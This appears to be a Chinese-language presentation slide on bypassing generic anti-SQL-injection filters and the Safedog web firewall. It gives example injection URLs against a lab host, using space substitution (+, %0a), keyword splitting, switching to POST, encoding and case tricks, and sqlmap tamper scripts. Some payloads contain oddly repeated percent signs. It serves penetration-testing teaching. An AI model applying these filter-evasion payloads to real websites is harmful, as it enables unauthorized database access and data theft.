

# 通用型防注入代码绕过
通用弹框拦截
改变数据提交方式
代码防御
+代替空格  http://192.168.149.130:84/common.asp?id=16+++++and+1=1
%0a、%a0代替空格
http://192.168.149.130:84/common.asp?id=16++and%%%%%%%%%%%%0a1=1
http://192.168.149.130:84/common.asp?id=16%%%%%%%%%%%%%0aand%%%%%%%%%%%%0a1=1
如果检测and关键字   --添加在and中间
http://192.168.149.130:84/common.asp?id=16%%%%%%%%%%%%%0aa%%n%%d%%%%%%%%%%%%0a1=1
注意: 使用post提交  貌似能过最新的安全狗
id=16%%%%%%%%%%%%%0aa%%n%%d%%%%%%%%%%%%0a1=1
url编码绕过、大小写绕过  编码次数过多会导致不识别
混合使用绕过  (包括变换提交方式、大小写、使用+、%0a、编码全部结合)
使用sqlmap的tamper